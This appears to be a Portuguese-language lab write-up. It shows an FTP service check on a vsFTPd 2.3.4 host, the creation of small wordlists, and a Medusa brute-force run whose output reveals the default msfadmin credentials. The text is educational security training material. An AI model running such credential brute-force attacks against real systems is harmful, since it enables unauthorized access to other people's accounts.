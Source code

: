 ```shell
Nmap done: 1 IP address (1 host up) scanned in 24.58 seconds
``` 
-----
Verificando se o serviço ftp está on
```shell
ftp 192.168.x.x

#saída
Connected to 192.168.x.x.
220 (vsFTPd 2.3.4)
Name (192.168.x.x:silvio): silvio
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> quit
221 Goodbye.
``` 
----

# ATAQUE COM MEDUSA
---
#### Criação worlist
###### Obs.: Por sabermos a senha apenas criamos alguns usuário e senhas fictícios



```shell
#Users
echo -e "user\nadmin\nmsfadmin\nsilvano" > users.txt

#passwords
echo -e "123456\nadm\nmsfadmin\nsilverado" > pass.txt
```
#### Ataque
```shell
medusa -h 192.168.x.x -U users.txt -P pass.txt -M ftp -t 6

#saída
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-16 16:22:43 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: user (1 of 4, 1 complete) Password: silverado (1 of 4 complete)
2025-10-16 16:22:43 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: admin (2 of 4, 1 complete) Password: 123456 (1 of 4 complete)
2025-10-16 16:22:43 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: admin (2 of 4, 1 complete) Password: adm (2 of 4 complete)
2025-10-16 16:22:44 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: user (1 of 4, 2 complete) Password: 123456 (2 of 4 complete)
2025-10-16 16:22:44 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: user (1 of 4, 2 complete) Password: msfadmin (3 of 4 complete)
2025-10-16 16:22:44 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: user (1 of 4, 2 complete) Password: adm (4 of 4 complete)
2025-10-16 16:22:44 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: msfadmin (3 of 4, 2 complete) Password: msfadmin (1 of 4 complete)
2025-10-16 16:22:44 ACCOUNT FOUND: [ftp] Host: 192.168.x.x User: msfadmin Password: msfadmin [SUCCESS]
2025-10-16 16:22:47 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: admin (2 of 4, 3 complete) Password: msfadmin (3 of 4 complete)
2025-10-16 16:22:47 ACCOUNT CHECK: [ftp] Host: 192.168.x.x (1 of 1, 0 complete) User: msfadmin (3 of 4, 3 complete) Password: 123456 (2 of 4 complete)
```